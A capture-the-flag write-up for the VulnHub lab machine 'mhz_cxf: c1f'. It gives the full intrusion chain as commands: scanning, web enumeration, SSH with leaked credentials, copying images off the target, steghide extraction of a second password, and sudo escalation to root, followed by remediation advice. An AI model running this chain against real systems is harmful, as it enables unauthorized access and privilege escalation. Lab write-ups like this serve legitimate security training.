





# mhz_cxf: c1f — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.104 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | /root/.root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/mhz_cxf-c1f,471/) |

## Attack Summary

`nmap` → `dirb` finds `notes.txt` and `remb.txt` → SSH as `first_stage` → SCP paintings → `steghide` extracts `remb2.txt` → `su mhz_c1f` → `sudo su` → root

## Methodology

1. Network discovery
2. Port scan — SSH and HTTP only
3. Web enumeration — notes.txt reveals credential files
4. SSH login with credentials from remb.txt
5. SCP painting images to attacker machine
6. Steghide extraction from JPEG — second credential set
7. sudo escalation to root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.104
```

Open ports: **22 (SSH)**, **80 (HTTP)**



---

## Step 2: Web Enumeration

```bash
dirb http://192.168.1.104/ -X .txt
```

Finds `notes.txt` which hints at `remb.txt` and `remb2.txt`.

```bash
curl http://192.168.1.104/remb.txt
# username: first_stage
# password: flagitifyoucan1234
```



---

## Step 3: SSH Login

```bash
ssh first_stage@192.168.1.104
# password: flagitifyoucan1234
cat user.txt
ls /home
ls /home/mhz_c1f/Paintings/
```

The `Paintings` directory contains JPEG images that may hide embedded data.



---

## Step 4: SCP Images to Attacker

```bash
mkdir loot && cd loot
scp "first_stage@192.168.1.104:/home/mhz_c1f/Paintings/*" .
ls -la
```

---

## Step 5: Steghide Extraction

```bash
steghide extract -sf "spinning the wool.jpeg"
# passphrase: (press Enter or try flagitifyoucan1234)
cat remb2.txt
# mhz_c1f:<password>
```

The extracted `remb2.txt` contains credentials for user `mhz_c1f`.



---

## Step 6: Privilege Escalation

```bash
su mhz_c1f
# enter password from remb2.txt
id
sudo su
cd /root
cat .root.txt
```

`mhz_c1f` is in the sudo group — `sudo su` gives root immediately.



---

## Lessons Learned

1. **Steganography in images** — always try `steghide`, `binwalk`, and `strings` on CTF image files
2. **Credential files in web root** — `dirb` with extension filters (`-X .txt`) finds hidden text files
3. **Naming conventions** — the VM name hints at the user and directory structure to enumerate
4. **Empty steghide passphrase** — always try Enter before using known passwords

## Remediation

| Vulnerability | Fix |
|---|---|
| Credentials in web-accessible .txt files | Never store credentials on the web server |
| Steganographic credential storage | Use proper secrets management (Vault, KMS) |
| sudo NOPASSWD for all | Restrict sudo; use per-command allow-lists |
| SSH password auth | Disable password auth; enforce key-only SSH |
